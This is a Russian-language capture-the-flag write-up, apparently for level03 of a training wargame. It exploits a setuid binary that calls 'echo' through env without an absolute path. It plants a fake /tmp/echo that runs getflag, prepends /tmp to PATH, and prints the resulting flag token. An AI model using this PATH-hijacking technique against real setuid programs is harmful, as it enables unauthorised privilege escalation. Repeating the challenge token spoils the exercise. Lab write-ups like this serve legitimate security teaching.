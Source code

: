 В этом уровне впервыфе появляется некий бинарный файл

```
ls -la
```
> ...\
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03\
...

Права rws означают, что данный банарный файл будет выполняться не с привилегиями пользователя, который ее запустил, а с привилегиями владельца файла.
Так как владельцем файла является flag03, вместо echo нужно выполнить getflag

С помощью трассировки вызовов библиотеки находим:
```
ltrace ./level03
```
>__libc_start_main(0x80484a4, 1, 0xbffff7b4, 0x8048510, 0x8048580 <unfinished ...>\
getegid()                                                                                                     = 2003\
geteuid()                                                                                                     = 2003\
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                           = 0\
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                           = 0\
system("/usr/bin/env echo Exploit me"Exploit me\
 <unfinished ...>\
--- SIGCHLD (Child exited) ---\
<... system resumed> )                                                                                        = 0\
+++ exited (status 0) +++

Oткрыв файл в нем была найдена строка:

system("/usr/bin/env echo Exploit me"Exploit me\

Которая выполняет echo без абсолютного пути, следовталеьно этот бинарник можно подменить

Создаем файл echo с необходимым содержимым
```
echo '#!/bin/sh
/bin/getflag' > /tmp/echo
```
И делаем его исполняемым
```
chmod +x /tmp/echo
```

Добавляем в начало данный путь
```
export PATH=/tmp:$PATH
```

Получаем токен
```
./level03
```
> Check flag.Here is your token : qi0maab88jeaj46qoumi7maus

